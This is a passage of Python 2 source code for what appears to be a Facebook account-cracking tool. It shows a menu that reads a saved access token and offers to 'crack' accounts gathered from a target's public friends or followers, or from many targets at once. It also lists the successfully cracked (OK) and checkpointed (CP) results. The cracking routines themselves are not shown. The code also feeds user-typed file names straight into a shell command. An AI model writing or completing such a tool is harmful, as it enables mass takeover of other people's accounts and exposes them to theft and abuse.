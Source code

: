 def menu():
  os.system("clear")
  global token
  try:
    token = open("login.txt","r").read()
  except KeyError:
    os.system("rm -f login.txt")
    exit(" [!] token expired")
  try:
    nama = requests.get("https://graph.facebook.com/me/?access_token="+token).json()["name"]
  except IOError:
    os.system("rm -f login.txt")
    exit(" [!] token expired")
  except requests.exceptions.ConnectionError:
    exit(" [!] no internet connection")
  logo()
  print(" [ Welcome \033[0;93m%s\033[0;97m ]\n"%(nama))
  print(" [1] crack from public friend")
  print(" [2] crack from public followers")
  print(" [3] crack from multi target ")
  print(" [4] see crack result")
  print(" [5] check the crack result option")
  print(" [6] user-agent settings")
  print(" [\033[0;91m0\033[0;97m] exit (remove token)")
  emon = raw_input("\n [?] choose : ")
  if emon == "":
    menu()
  elif emon == "1":
    publik()
    method()
  elif emon == "2":
    follower()
    method()
  elif emon == "3":
    massal()
    method()
  elif emon == "4":
    print("\n [1] check the crack OK")
    print(" [2] check the crack CP")
    cek = raw_input("\n [?] choose : ")
    if cek =="":
      menu()
    elif cek == "1":
      dirs = os.listdir("OK")
      print(" [*] list of file names stored in the OK folder\n")
      for file in dirs:
        print(" [+] "+file)
      try:
        file = raw_input("\n [?] select filename : ")
        if file == "":
          menu()
        totalok = open("OK/%s"%(file)).read().splitlines()
      except IOError:
        exit(" [!] file %s not available"%(file))
      nm_file = ("%s"%(file)).replace("-", " ")
      del_txt = nm_file.replace(".txt", "")
      print(" [#] ----------------------------------------------")
      print(" [+] crack result : %s total : %s\033[0;92m"%(del_txt, len(totalok)))
      os.system("cat OK/%s"%(file))
      print("\033[0;97m [#] ----------------------------------------------")
      exit(" [!] don't forget to copy and save the results")
    elif cek == "2":
      dirs = os.listdir("CP")
      print(" [*] list of file names stored in the CP folder\n")